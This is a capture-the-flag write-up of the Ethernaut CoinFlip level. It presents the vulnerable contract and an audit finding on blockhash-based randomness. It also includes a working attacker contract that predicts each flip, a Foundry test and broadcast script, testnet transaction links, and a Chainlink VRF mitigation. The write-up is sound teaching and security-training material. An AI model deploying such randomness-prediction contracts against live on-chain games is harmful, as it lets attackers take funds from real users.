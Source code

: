 # Level 3: CoinFlip

**Level Page**: [See on Ethernaut](https://ethernaut.openzeppelin.com/level/0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF)

**Description**:

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

`Text after completing the level`:

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](https://medium.com/coinmonks/simple-oraclize-example-with-solidity-68b6811902da)).

**Code**:

The smart contract to be exploited:

<details>
<summary>See Code</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

</details>

# Findings

### [H-1] Weak randomness in `CoinFlip::flip` allows anyone to always win the flip

**Description**: The `CoinFlip::flip` is using a calculation that is public, so anyone can use the same calculation to guess the next flip result. In fact, the user would have to run the `CoinFlip::flip` many times to have consecutive wins due tho the comparison `lastHash == blockValue` that requires the address to execute the function in different block numbers. But even this way, the entrant can execute `CoinFlip::flip` many times where each of this times he/she wins.

**Impact**: Anyone can manage to always win the flip in this protocol.

**Proof of Code**: One way of doing this is to create another contract that implements the same calculation strategy, so we can calculate what will be the next flip result and then play the flip sequentially.

<details>
<summary>See ContractAttacker Code</summary>

```javascript
// CoinFlipAttacker.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip{
  function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttacker {
  address victim;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _coinFlip) {
    victim = _coinFlip;
  }

  function guess() internal view returns(bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    return side;
  }

  function attack() public {
    bool _guess = guess();
    ICoinFlip(victim).flip(_guess);
  }
}
```

</details>

<details>
<summary>See Test Code</summary>

A snippet of `CoinFlipAttack.t.sol`. The `vm.roll(i)` simulates the `block.number` update to `i` inside the foundry test suit. In this code, we can manage to win 10 times.

```javascript
function testShouldWinTenTimes() public{
  for(uint i=1;i<=10;i++){
    vm.roll(i);
    coinFlipAttacker.attack();
  }
  
  uint256 consecutiveWins = coinFlip.consecutiveWins();

  assertEq(consecutiveWins, 10);
}
```

</details>

**Recommended Mitigation**: Generating random numbers only using Solidity features is not actually recommended, there is always a way to manipulate to someones benefit. One of the recommendations is to use [Chainlink VRF](https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number). Chainlink provide oracles that we can use to generate random numbers using some off-chain techniques, see the Chainlink docs for more details.

# Attack

**Description**: The attack was made using the `CoinFlipAttacker.sol` contract created. We first deploy this contract, then call attack 10 times (`make attack` 10 times). Basically this is the main `CoinFlipAttack.s.sol` code:

```javascript
  vm.startBroadcast(attacker);

  // Attack
  coinFlipAttacker.attack();

  vm.stopBroadcast();
```

**Instance used**: [0xaA2bC5e263a1b3BdE313A36Aba01CFd40877EA53](https://sepolia.etherscan.io/address/0xaA2bC5e263a1b3BdE313A36Aba01CFd40877EA53)

**Attacker Contract**: [0x8788f2a0096ce8783b009d2897654054ba6a5b3e](https://sepolia.etherscan.io/address/0x8788f2a0096ce8783b009d2897654054ba6a5b3e)

**Attack Transaction**: [see on etherscan](https://sepolia.etherscan.io/address/0x8788f2a0096ce8783b009d2897654054ba6a5b3e)

**Level Completed Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0x38a4e8b07fa3048796d290ef61bfbeca6702a036235a1090ddd290f9abfb0280)

# Getting started

## Build

```bash
make build
```

## Test

```bash
make test
```

## Deploy Attacker contract (testnet)

```bash
make deploy
```

## Attack (testnet)

```bash
make attack
```

## Submit level (testnet)

```bash
make submit
```

## Check if you completed the level (testnet)

`true` - You completed the level
`false` - You didn't complete the level

```bash
make check
```
